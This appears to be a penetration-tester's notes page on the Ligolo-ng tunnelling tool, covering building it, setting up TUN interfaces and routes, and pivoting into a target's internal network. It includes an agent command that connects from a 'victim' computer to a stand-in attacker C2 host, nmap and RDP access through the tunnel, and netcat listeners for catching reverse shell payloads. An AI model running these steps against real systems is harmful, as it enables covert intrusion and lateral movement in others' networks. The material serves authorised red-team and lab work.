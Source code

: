 # Ligolo-ng 

## Github repo: https://github.com/nicocha30/ligolo-ng

## Precompiled Binaries: https://github.com/nicocha30/ligolo-ng/releases

# Build

- go build -o agent cmd/agent/main.go

- go build -o proxy cmd/proxy/main.go

- Build for Windows

- GOOS=windows go build -o agent.exe cmd/agent/main.go

- GOOS=windows go build -o proxy.exe cmd/proxy/main.go

# Setup

### Linux

- sudo ip tuntap add user YOUR_USERNAME mode tun ligolo

- sudo ip link set ligolo up

- sudo ip route add IP_ADDRESS/SUBNET_MASK dev ligolo ( Configure the routing table so that it will direct traffic that is destined for the IP_ADDRESS/SUBNET_MASK network to be routed through our newly created TUN device.)

### Windows

#### You need to download the Wintun driver (used by WireGuard) and place the wintun.dll in the same folder as Ligolo (make sure you use the right architecture).

#### Links: https://www.wintun.net/

### Start the proxy server on your Command and Control (C2) server (default port 11601):

- ./proxy -h  (Help options)

- ./proxy -autocert (Automatically request LetsEncrypt certificates)

- ./proxy -selfcert (DON'T USE THIS ON A REAL ENGAGEMENT)

# Usage

 -  ./agent -connect attacker_c2_server.com:11601 (Start the agent on your target (victim) computer (no privileges are required!)

## TIP: If you want to tunnel the connection over a SOCKS5 proxy, you can use the --socks ip:port option. You can specify SOCKS credentials using the --socks-user and --socks-pass arguments.

### A session should appear on the proxy server.

 - INFO[0102] Agent joined. name=nchatelain@nworkstation remote="XX.XX.XX.XX:38000" (Example)

### Use the session command to select the agent.

 - ligolo-ng » session 

 - ? Specify a session : 1 - nchatelain@nworkstation - XX.XX.XX.XX:38000

### Display the network configuration of the agent using the ifconfig command:

 - [Agent : nchatelain@nworkstation] » ifconfig

### Add a route on the proxy/relay server to the 192.168.0.0/24 agent network.

 - sudo ip route add 192.168.0.0/24 dev ligolo (Linux)

 - netsh int ipv4 show interfaces

 - route add 192.168.0.0 mask 255.255.255.0 0.0.0.0 if [THE_INTERFACE_IDX] (Windows)

### Start the tunnel on the proxy

 - [Agent : nchatelain@nworkstation] » tunnel_start

 - [Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   

### You can also specify a custom tuntap interface using the --tun iface option:

 - [Agent : nchatelain@nworkstation] » tunnel_start --tun MY_CUSTOM_TUN_TAP

 - [Agent : nchatelain@nworkstation] » INFO[0690] Starting tunnel to nchatelain@nworkstation   

### You can now access the 192.168.0.0/24 agent network from the proxy server.

## Examples:

 - $ nmap 192.168.0.0/24 -v -sV -n

 - [...]

 - $ rdesktop 192.168.0.123

 - [...]

# Agent Binding/Listening

### You can listen to ports on the agent and redirect connections to your control/proxy server.

### In a ligolo session, use the listener_add command.

 - [Agent : nchatelain@nworkstation] » listener_add --addr 0.0.0.0:1234 --to 127.0.0.1:4321 --tcp (Creates a TCP listening socket on the agent (0.0.0.0:1234) and redirect connections to the 4321 port of the proxy server)

 - INFO[1208] Listener created on remote agent!

### On the proxy:

 - nc -lvp 4321 (When a connection is made on the TCP port 1234 of the agent, nc will receive the connection.)

## TIP: This is very useful when using reverse tcp/udp payloads.

### You can view currently running listeners using the listener_list command and stop them using the listener_stop [ID] command:

 - listener_list

 - listener_stop ID

## Access to agent's local ports (127.0.0.1)

### If you need to access the local ports of the currently connected agent, there's a "magic" IP hardcoded in Ligolo-ng: 240.0.0.1 ( This IP address is part of an unused IPv4 subnet). If you query this IP address, Ligolo-ng will automatically redirect traffic to the agent's local IP address (127.0.0.1).

#### Example:

 - sudo ip route add 240.0.0.1/32 dev ligolo

 - nmap 240.0.0.1 -sV
